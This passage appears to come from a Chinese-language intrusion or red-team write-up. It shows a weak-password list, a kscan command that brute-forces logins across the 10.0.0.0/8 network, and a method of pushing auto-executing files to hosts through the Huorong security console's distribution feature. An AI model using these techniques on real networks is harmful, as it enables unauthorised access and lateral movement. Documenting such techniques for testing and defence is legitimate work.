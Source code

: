 ```php
#2020
#2021
#2022
123!@#
!@#123.
@233
!@#345
!@#qwe
```

**python3 createDict.py**就会自动生成密码文件，密码保存在createdict.txt文件里面，密码生成后丢给kscan指定密码文件去撞密码。

```php
kscan.exe -t 10.0.0.0/8 --hydra --hydra-pass file:pwd.txt
```

### 路径5 火绒控制台文件分发

这里就是使用火绒控制台分发文件的功能直接下发文件，这里也是神奇哈文件分发后居然自动执行了，牛呀牛呀

![image.png](assets/1698900782-2d12dac1dd5bfbab2b89e21411a83650.png)

火绒控制台这里不知道为啥我的浏览器一开控制台直接卡死，找J师傅给我看的，文件直接分发下去

